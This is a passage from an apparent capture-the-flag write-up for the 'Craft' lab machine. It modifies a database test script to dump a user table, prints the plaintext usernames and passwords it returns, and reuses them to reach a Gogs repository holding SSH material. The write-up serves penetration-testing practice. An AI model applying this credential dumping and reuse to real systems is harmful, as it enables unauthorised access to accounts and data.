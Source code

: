 ```bash
tcp        0      0 0.0.0.0:8888            0.0.0.0:*               LISTEN      1/python
udp        0      0 127.0.0.11:40244        0.0.0.0:*                           -
```
There's a dbtest.py:
```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try:
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
        cursor.execute(sql)
        result = cursor.fetchone()
        print(result)

finally:
    connection.close()
```
Running it gives:
```bash
python dbtest.py
{'id': 12, 'brewer': '10 Barrel Brewing Company', 'name': 'Pub Beer', 'abv': Decimal('0.050')}
```
Use  ``sql = "show tables;"`` it gives `brew` and `user` as a table and change fetchone() to fetchall(). 
Use `sql = "SELECT * from user;"` 
```bash
python dbtest.py
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
```
## Getting user shell as gilfoyle
Creds from MySQL database can pass login in gogs.craft.htb and we've a repo called craft-infra which has a .ssh folder.